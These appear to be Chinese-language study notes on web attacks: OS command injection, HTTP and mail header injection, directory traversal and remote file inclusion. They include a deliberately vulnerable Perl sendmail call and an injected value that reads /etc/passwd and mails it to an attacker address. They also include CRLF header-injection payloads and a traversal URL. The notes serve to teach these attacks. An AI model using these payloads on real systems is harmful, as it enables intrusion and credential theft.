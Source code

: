 ##### os 命令注入攻击

- 服务器执行系统命令存在漏洞;
- 攻击者构造非法命令;

```bash
# 服务器调用命令行穿在安全漏洞
my $adr = $q->param('mailaddress');
open(MAIL, "¦ /usr/sbin/sendmail $adr");
print MAIL "From: info@example.com\n";

# 攻击者构造非法
; cat /etc/passwd ¦ mail hack@example.jp

# 系统执行命令
# ; 视为命令之间的分隔符, 导致非法执行 cat 之后的命令
¦ /usr/sbin/sendmail ; cat /etc/passwd ¦ mail hack@example.jp
```

##### HTTP 首部注入攻击

- 被动攻击;
- 攻击者在首部字段插入换行符;
- 添加任意首部或主体;

```bash
# 通过 %0D%0A 换行符, 非法插入 Set-Cookie
%0D%0ASet-Cookie:+SID=123456789
# 通过 %0D%0A 换行符, 非法插入任意 HTML 网页
%0D%0A%0D%0A<HTML><HEAD><TITLE> 之后,想要显示的网页内容 <!--
```

##### 邮件首部注入攻击

- 被动攻击;
- 通过邮件首部插入换行符;
- 发送给任意对象或添加非法内容;

```bash
# 通过 %0D%0A%0D%0A 改写任意邮件首部
bob@hackr.jp%0D%0A%0D%0ATest Message
```

##### 目录遍历攻击

- 主动攻击;
- 通过分析 URL, 猜测文件目录;
- 通过相对路径定位符或文件名访问非公开文件;

```bash
# ../../etc/passwd 访问上级文件夹中的 etc 文件
http://example.com/read.php?log=../../etc/passwd
```

##### 远程文件包含漏洞

- 主动攻击;
- 服务器脚本使用外界 URL;
- 攻击者制作陷阱 URL, 诱导服务器执行;
- 常见于 php;
